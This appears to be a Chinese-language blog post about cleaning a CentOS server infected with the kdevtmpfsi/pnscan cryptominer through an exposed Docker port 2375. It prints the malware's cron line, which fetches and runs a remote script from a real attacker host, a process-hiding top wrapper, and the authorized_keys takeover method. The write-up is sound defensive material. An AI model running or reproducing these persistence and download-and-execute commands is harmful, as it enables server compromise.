

> 记一次服务器被挖矿病毒攻击问题排查

- 原因：因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒kdevtmpfsi，pnscan

- 现象：CPU占用拉满，定时任务向6379端口持续发送信息

1. 首先想到使用top命令排查进程，发现top无法使用，显示`permission denied` ，

   ```shell
   [root@VM-16-4-centos bin]# top
   -bash: /usr/bin/top: Permission denied
   ```

2. 查询后获悉`top` 命令被篡改为如下

   ```shell
   [root@VM-16-4-centos bin]# cat /usr/bin/top
   #!/bin/bash
   top.lanigiro $@ | grep -v 'ddns\|scan'
   ```

3. 拷贝原有top脚本，通过ftp传输，发现无法覆盖`top` 文件，使用 `lsattr` 命令查看文件属性，果然为被设置为了 `-i`  不可修改：

   ```shell
   [root@VM-16-4-centos bin]# lsattr /usr/bin/top
   ----i--------e-- /usr/bin/top
   ```

4. 打算使用`chattr` 命令删除`-i` 参数，发现`chattr` 命令不可用，也被删除掉了

   ```shell
   [root@VM-16-4-centos bin]# chattr
   -bash: chattr: command not found
   ```

5. 只能重新安装`chattr` 命令，查看安装包版本，先删除再安装`e2fsprogs` 包

   ```shell
   [root@VM-16-4-centos bin]# rpm -qa|grep e2fsprogs
   e2fsprogs-libs-1.42.9-19.el7.x86_64
   e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum remove e2fsprogs-1.42.9-19.el7.x86_64
   [root@VM-16-4-centos bin]# yum install e2fsprogs-1.42.9-19.el7.x86_64
   ```

6. 重装后`chattr` 命令终于可用，修改文件属性，使用FTP工具传输覆盖`top` 命令，仍然无法使用top命令，于是改安装`htop` 命令

   ```shell
   yum -y install htop
   ```

7. 使用`htop` 命令查看，发现挖矿病毒，继续排查



8. 查看定时任务，并停止，发现cron脚本也被感染无法更改（心肺停止...）

   ```shell
   [root@VM-16-4-centos bin]# crontab -l
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   [root@VM-16-4-centos bin]# crontab -e
   
   */30 * * * * /usr/bin/cdz -fsSL http://oracle.zzhreceive.top/b2f628/b.sh | bash > /dev/null 2>&1
   
   ```

9. 修改`cron` 文件属性，修改后删除定时任务，再使用`htop` 命令查看，CPU占用明显降低，仅剩  **pnscan** 病毒

   ```shell
   [root@VM-16-4-centos bin]# chattr -iae /var/spool/cron/root 
   [root@VM-16-4-centos bin]# lsattr /var/spool/cron/
   -------------e-- /var/spool/cron/root
   [root@VM-16-4-centos bin]# crontab -e
   crontab: installing new crontab
   
   ```

10. 但修改后仍然无法删除定时任务脚本只能编辑，原来可能存在隐藏文件，`lsattr -a` 命令查看果然有，同样`chattr` 修改对应文件属性

    ```shell
    [root@VM-12-14-centos cron]# lsattr -a
    ----ia-------e-- ./.
    -------------e-- ./..
    ---------------- ./root
    [root@VM-12-14-centos cron]# chattr -iae .
    [root@VM-12-14-centos cron]# chattr -iae ..
    [root@VM-12-14-centos cron]# lsattr -a
    ---------------- ./.
    ---------------- ./..
    ----------------./root
    ```

11. 去除pnscan，用htop命令查看 pnscan进程位置，删除对应文件，至此pnscan病毒搞定

    ```shell
    [root@VM-12-14-centos bin]# rm -f pnscan
    ```

12. 终于发现被攻击原因，因为docker远程连接，开放了默认端口2375，导致中了挖矿病毒，具体原因分析如下：

- docker开放2375端口用于远程管理容器，而容器本身可以挂载服务器目录；
- 因此攻击者通过2375端口，拉取做好的镜像，启动容器时挂载`~/.ssh` 目录 在 `authorized_keys` 中添加了攻击者的公钥，至此，攻击者获得服务器控制权，进而执行病毒脚本。
  
- 参考：https://www.techug.com/post/do-a-hacker-invade-a-server.html

> 后记：外网环境应通过`TLS`方式开启docker远程端口访问，配置细节可参考 [docker环境及常用镜像安装](/2022/06/06/docker环境安装/)  